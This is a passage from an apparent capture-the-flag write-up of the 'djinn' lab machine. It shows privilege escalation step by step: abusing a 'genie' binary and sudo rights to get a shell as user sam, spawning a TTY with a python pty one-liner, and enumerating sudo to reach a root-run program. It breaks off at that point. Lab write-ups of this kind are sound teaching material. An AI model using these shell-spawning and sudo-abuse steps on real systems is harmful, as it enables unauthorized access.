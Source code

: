 When trying to use cmd flag it seems to open a new shell.

nitish\@djinn:/opt/80\$ genie -cmd whoami

genie -cmd whoami

my man!!

\$ whoami

whoami

nitish

\$ exit

exit

You are a noob hacker!!

### Low Privilege Exploitation (sam)

Next, executing it as user sam, gives us shell as sam user.

nitish\@djinn:/opt/80\$ sudo -u sam genie -cmd whoami

sudo -u sam genie -cmd whoami

my man!!

\$ whoami

whoami

sam

Upgrading the shell to TTY.

\$ python -c "import pty;pty.spawn('/bin/bash')"

python -c "import pty;pty.spawn('/bin/bash')"

### Further Enumeration.

sam\@djinn:/home/sam\$ sudo -l

sudo -l

Matching Defaults entries for sam on djinn:

env_reset, mail_badpass,

secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin

User sam may run the following commands on djinn:

(root) NOPASSWD: /root/lago

Looks like another executable. Let's try and run it.

sam\@djinn:/home/sam\$ sudo /root/lago

sudo /root/lago

